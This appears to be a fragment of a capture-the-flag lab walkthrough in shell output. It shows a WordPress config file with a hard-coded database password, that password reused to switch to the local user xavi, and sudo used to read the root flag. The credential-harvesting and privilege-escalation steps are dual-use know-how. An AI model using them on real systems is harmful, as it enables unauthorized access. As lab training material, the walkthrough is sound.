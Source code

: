 /* Add any custom values between this line and the "stop editing" line. */



/* That's all, stop editing! Happy publishing. */

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
        define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';
gege@ip-10-10-97-230:~/wordpress.old$


# xavi
define( 'DB_USER', 'xavi' );

/** Database password */
define( 'DB_PASSWORD', 'P@ssw0rdxavi@' );

# su xavi

xavi@ip-10-10-97-230:~$ id
uid=1001(xavi) gid=1001(xavi) groups=1001(xavi),1005(internal)
xavi@ip-10-10-97-230:~$

# sudo ls -> sudo 사용 가능

xavi@ip-10-10-97-230:~$ id
uid=1001(xavi) gid=1001(xavi) groups=1001(xavi),1005(internal)
xavi@ip-10-10-97-230:~$ sudo ls
[sudo] password for xavi: 
xavi@ip-10-10-97-230:~$

# root.txt

bin  boot  dev  etc  home  lib  lib32  lib64  libx32  lost+found  media  mnt  opt  proc  root  run  sbin  srv  swap.img  sys  tmp  usr  var
xavi@ip-10-10-97-230:/$ cd /root
bash: cd: /root: Permission denied
xavi@ip-10-10-97-230:/$ sudo ls /root
root.txt  snap
xavi@ip-10-10-97-230:/$ sudo cat /root/root.txt
bf89ea3ea01992353aef1f576214d4e4
xavi@ip-10-10-97-230:/$
